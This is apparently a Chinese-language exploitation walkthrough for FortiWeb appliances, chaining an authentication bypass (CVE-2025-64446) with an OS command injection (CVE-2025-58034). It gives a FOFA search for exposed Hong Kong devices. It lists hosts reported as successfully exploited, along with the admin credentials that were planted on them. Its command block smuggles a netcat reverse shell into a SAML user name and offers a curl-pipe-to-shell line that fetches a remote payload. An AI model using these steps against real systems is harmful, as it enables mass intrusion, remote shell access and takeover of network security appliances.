





**FortiWe ** CVE-2025-58034 


漏洞利用是先权限绕过，写入管理员账户密码，利用账户密码反弹shell.


## 参考：

https://github.com/soltanali0/CVE-2025-64446-Exploit

https://github.com/lincemorado97/CVE-2025-64446_CVE-2025-58034


# CVE-2025-64446 – Authentication Bypass


## fofa关键字：

app="FORTINET-FortiWeb" && country="HK"


## 扫描资产：

利用https://github.com/soltanali0/CVE-2025-64446-Exploit里面的工具，对fofa资产扫描：




SUCCESSFUL EXPLOITS:
 xx:8443 - f509a667:f509a667
  xx:443 - c983d9a5:c983d9a5
 xx:8443 - ddeef34e:ddeef34e
xx:8443 - 69ac9c88:69ac9c88

登录




这个路径可以确定资产是什么域名：/root/system/local-cert-menu/local-cert


# CVE-2025-58034 – Authenticated OS Command Injection



```
config user saml-user
//不能加-t
edit "`nc 192.168.1.123 12345  -e /bin/bash`"
或者直接写木马
curl -fsSL -m180 http://x x x:8084/slt|sh

set entityID http://foo

set service-path /foo

set enforce-signing disable

set slo-bind post

set slo-path /foo

set sso-bind post

set sso-path /foo

end
```




